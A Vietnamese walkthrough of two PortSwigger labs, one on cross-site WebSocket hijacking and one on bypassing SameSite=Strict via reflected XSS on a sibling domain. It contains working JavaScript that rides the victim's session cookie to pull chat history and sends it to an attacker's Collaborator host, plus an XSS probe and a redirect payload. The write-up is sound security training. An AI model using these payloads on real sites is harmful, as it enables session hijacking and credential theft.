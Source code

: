 🧪 **Lab: Cross-site WebSocket Hijacking (PortSwigger)**

🔗 **Lab URL: https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab**

🧠 **Phân tích kỹ thuật đề bài**
Ứng dụng là một cửa hàng trực tuyến có tích hợp tính năng live chat sử dụng WebSocket để truyền và nhận tin nhắn theo thời gian thực.

✅ **Điểm yếu bảo mật:**

WebSocket không yêu cầu CSRF token khi handshake.

Cookie phiên của người dùng vẫn được gửi trong quá trình WebSocket handshake từ bất kỳ origin nào.

Cho phép kẻ tấn công tạo một script độc hại khiến trình duyệt của nạn nhân tự động kết nối lại WebSocket bằng session hợp lệ của họ.

🧩 **Mục tiêu**

Sử dụng tính năng Exploit Server để gửi một trang HTML chứa script khai thác đến nạn nhân, đánh cắp lịch sử chat của họ. Trong đó có chứa username và password, từ đó đăng nhập và hoàn thành lab.

🔍 **Bước 1: Quan sát hoạt động của WebSocket**

Truy cập lab, nhấn vào "Live chat".

Gửi một tin nhắn bất kỳ.

Reload lại trang.

Mở Burp Suite → Proxy → WebSockets history:

Quan sát thấy client gửi chuỗi "READY" → server phản hồi bằng toàn bộ lịch sử tin nhắn.

Đây là chuỗi quan trọng mà attacker cần gửi để server gửi lịch sử về.

![image](https://github.com/user-attachments/assets/437785b0-5ee3-458e-bb29-22600978b071)

Mở Burp → Proxy → HTTP history:

Tìm yêu cầu handshake WebSocket (thường là GET /chat với Upgrade: websocket).

Kiểm tra và xác nhận: không có CSRF token trong header.

![image](https://github.com/user-attachments/assets/34d82764-0e63-4957-bb6c-d0cf4d3121c8)

💥 **Bước 2: Khai thác bằng JavaScript**

Truy cập Exploit Server, dán đoạn script sau vào phần Body của payload:

<script>
    var ws = new WebSocket('wss://<your-lab-id>.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<your-collaborator-id>.oastify.com', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
</script>
🔧 Lưu ý:

Thay <your-lab-id> bằng lab ID của bạn (copy từ yêu cầu handshake WebSocket).

Thay <your-collaborator-id> bằng Burp Collaborator payload.

🔁 **Quy trình khai thác**

Nạn nhân truy cập trang exploit.

Script chạy trên trình duyệt của nạn nhân.

Trình duyệt tự động mở WebSocket đến /chat với cookie hợp lệ.

Gửi "READY" → nhận toàn bộ lịch sử chat.

Từng tin nhắn được gửi về máy chủ attacker (qua Burp Collaborator).

Attacker thu được thông tin đăng nhập trong nội dung chat.

![image](https://github.com/user-attachments/assets/f2ac2644-962b-47b0-9372-d0ee47e0545f)

🧩 **Bước 3: Đăng nhập và hoàn thành Lab**

Mở Burp → Collaborator tab → Poll now.

Kiểm tra các request chứa lịch sử chat → tìm username và password.

Dùng thông tin đó để đăng nhập và hoàn thành lab.

✅ **Kết luận**

Lỗi WebSocket hijacking xảy ra khi:

WebSocket không kiểm tra Origin hoặc CSRF token.

Trình duyệt gửi cookie tự động trong kết nối WebSocket → cho phép trang bên ngoài "hijack" session hiện tại.

🧪 **Lab: SameSite Strict bypass via sibling domain**
🔗 **Lab URL: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain**
🧠 **Mục tiêu**

Khai thác lỗ hổng Cross-site WebSocket Hijacking (CSWSH) và vượt qua cơ chế bảo vệ SameSite=Strict bằng cách sử dụng XSS từ domain anh em (cms-...) để đánh cắp lịch sử chat chứa thông tin đăng nhập nạn nhân.

🕵️‍♂️ **Phân tích kỹ thuật**

Ứng dụng có tính năng chat sử dụng WebSocket (/chat).

WebSocket không có CSRF token trong handshake → có thể bị chiếm quyền nếu vượt qua được SameSite cookie.

Cookie của ứng dụng được gán SameSite=Strict → chặn truy cập từ cross-site.

Tuy nhiên, domain cms-... là sibling domain trong cùng một "site" → không bị SameSite chặn.

cms-... chứa lỗ hổng reflected XSS trong form /login.
🧰 **Bước 1: Xác định XSS ở sibling domain**

Trong Burp Proxy, gửi yêu cầu đến một file JS/image → thấy header:
![image](https://github.com/user-attachments/assets/07117940-cc20-44b2-954c-202ec73e0861)
Truy cập domain đó → thấy form đăng nhập.

Gửi payload:

<script>alert(1)</script>

![image](https://github.com/user-attachments/assets/3c8f6d59-8f72-4270-a4b5-c6836b91dfad)

 => xác nhận có reflected XSS.

 Copy URL chứa payload XSS để sử dụng cho tấn công CSWSH(cross site websocket hijacking).

📡 **Bước 2: Viết script tấn công WebSocket**

<script>
    
    var ws = new WebSocket('wss://<your-lab-id>.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<your-collaborator>.oastify.com', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
    
</script>


URL-encode toàn bộ script trên → dán vào URL cms-.../login?username=....

Tạo script chuyển hướng người dùng sang URL XSS:

<script>
    
    document.location = "https://cms-<lab-id>.web-security-academy.net/login?username=<payload-encoded>&password=anything";
    
</script>

![image](https://github.com/user-attachments/assets/22dcb625-d9e4-491d-be1e-8ff3a50f943f)

🎯 **MỤC ĐÍCH:**

Khởi tạo kết nối WebSocket từ trình duyệt nạn nhân đến server chat, sử dụng session cookie của nạn nhân.

Gửi lệnh "READY" đến server, khiến nó phản hồi toàn bộ lịch sử chat (chứa tên đăng nhập và mật khẩu).

Gửi dữ liệu lịch sử chat đó ra ngoài, về máy chủ của kẻ tấn công (thông qua Burp Collaborator).

Do SameSite=Strict ngăn chặn gửi cookie khi truy cập từ một site khác, nên:

XSS trên sibling domain (cms-...) được dùng để thực thi JavaScript trong cùng "site" → cookie được gửi đúng cách → bypass thành công SameSite Strict.

✅ **Kết quả:**

Khi người dùng (nạn nhân) truy cập URL chứa XSS trong username, trình duyệt của họ:

Chạy script tấn công WebSocket (gửi "READY" → nhận chat history).

Do chạy từ cùng site, cookie được gửi theo.

Chat history chứa username/password → được gửi về attacker.
